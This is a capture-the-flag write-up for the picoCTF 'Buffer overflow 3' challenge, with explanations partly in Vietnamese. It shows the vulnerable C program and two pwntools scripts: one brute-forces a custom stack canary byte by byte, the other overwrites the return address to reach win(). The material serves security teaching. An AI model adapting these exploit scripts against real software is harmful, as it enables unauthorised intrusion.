


# Buffer overflow 3

## Description

Do you think you can bypass the protection and get the flag? It looks like Dr. Oswal added a stack canary to this program to protect against buffer overflows.

## source code

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## solution

Bài này sử dụng 1 hàm check canary và 1 biến canary tự tạo để kiểm tra stack smashing. Chương trình dùng hàm `memcmp()` check.
Lợi dụng hàm `memcmp()` ta sẽ dùng nó để bruteforce từng byte của canary. Script:

### brute force canary

```python
#!python3
from pwn import *
canary = ''
j = 1
while True:
    for i in range(65,123):
        r = remote('saturn.picoctf.net', 50632)
        r.recv()
        r.sendline(str(64+j).encode())
        #print(str(64+j).encode())
        r.recv()
        r.sendline(cyclic(64) +canary.encode() + chr(i).encode())
        #print(cyclic(64) +canary.encode() + chr(i).encode())
        a = r.recv()
        if a == b"Ok... Now Where's the Flag?\n":
            r.close()
            canary += chr(i)
            break
        r.close()
        #print (i)
    j += 1
    if j == 5:
        break
    #print (canary)
print (canary)
```



### lấy flag

```python 
#!python3
from pwn import *
#connect saturn.picoctf.net 50975
elf = ELF("./vuln")
r = remote('saturn.picoctf.net', 50632)
r.recv()
r.sendline(b'88')
r.recv()
r.sendline(b'a'*64 + b'BiRd' + b'a'*16 + p32(elf.symbols.win))
print(elf.symbols.win)
r.interactive()
```


